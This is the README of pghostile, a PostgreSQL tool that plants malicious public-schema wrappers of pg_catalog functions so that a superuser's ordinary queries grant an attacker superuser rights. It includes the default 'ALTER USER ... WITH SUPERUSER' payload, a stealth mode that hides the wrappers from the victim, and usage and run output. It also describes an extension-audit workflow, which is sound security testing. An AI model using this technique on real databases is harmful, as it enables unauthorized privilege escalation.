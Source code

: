 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a nice playground for attackers.  
Pghostile is an automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.  

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.  

In a few words, pghostile searches pg_catalog for functions that can be overridden and creates a malicious wrapper of them in the public schema.  

Currently, it can identify ~650 functions/parameters combinations that can lead to privilege escalation. To give an example, the list below contains some of these functions:  
```SQL
select sha256('randstr');
select unnest(array [1, 2]);
select array_replace(array [1, 2], 1, 1);
select date_cmp('2022-07-12', '2022-07-12');
select time_cmp('00:00:00', '00:00:00');
select varcharout('randstr');
select round(1, 1);
select floor(1);
select power(1, 1);
select int4(1);
select div(1, 1);
select format('randstr', 1);
select pg_sleep(1.1);
select inet_out('10.0.0.1');
select hashmacaddr('01:01:01:02:02:02');
select hashinet('10.0.0.1');
select xml_out('<foo />');
select json_out('[true]');
select uuid_out('93967025-8c89-4320-ad51-4ef50694502f');
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function. There are also less chances to break execution flows that could bring us to other vulnerable points.  
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.  
The -p option forces the DB's password request even if the PGPASSWORD environment variable is set.  

### Example
```
pghostile.py user1 testdb -H 10.211.55.12
```
```
Starting ... 

[ * ] 1272 interesting functions have been identified
[ * ] Creating test functions
[ * ] Testing functions
[ * ] Deleting test functions
[ * ] Creating exploit functions
[ * ] Done! 913 functions have been created

663 exploitable functions and params combinations have been tested!
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser
```sql
SELECT rolsuper FROM pg_roles where rolname='user1'
```
4. If you are superuser, all the functions that triggered the exploit are listed in:
```sql
select * from pghostile.triggers
```
